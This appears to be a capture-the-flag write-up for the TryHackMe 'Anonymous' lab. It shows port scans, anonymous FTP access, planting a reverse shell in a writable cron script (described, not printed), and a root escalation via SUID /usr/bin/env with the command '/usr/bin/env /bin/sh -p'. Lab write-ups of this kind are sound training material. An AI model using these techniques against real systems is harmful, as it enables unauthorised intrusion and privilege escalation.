 # Link
- https://tryhackme.com/room/anonymous

# Info

## IP = ?

## Creds

# Ports

## PortScanning

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

## 21

### Scanning

```
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:$IP
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
```
### Anonymous Login

- get 3 files, most important: _clean.sh_

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

```

### I have permission to write this file, and because the _removed_files.log_ is increasing, I think that the _clean.sh_ file is running like a cron job. Uploading a rev shell in bash, I got a shell

## 22

### Scanning
```
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
```

## 139

### Scanning
```
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

## 445

### Scanning
```
Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-02-01T12:37:37
|_  start_date: N/A
|_clock-skew: mean: 3s, deviation: 1s, median: 2s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2024-02-01T12:37:37+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### `smbclient`

```
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/Anonymous]
└─$ smbclient -L $IP
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
                                                                             
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/Anonymous]
└─$ smbclient \\\\$IP\\pics       
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \>
```

# PrivEsc

## `cat user.txt`

- flag{XXXX}

## SUID bin

```
/usr/bin/env
```

## Got root

- https://gtfobins.github.io/gtfobins/env/#suid
```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# whoami
root
# cd /root
# cat root.txt
flag{XXXX}
```

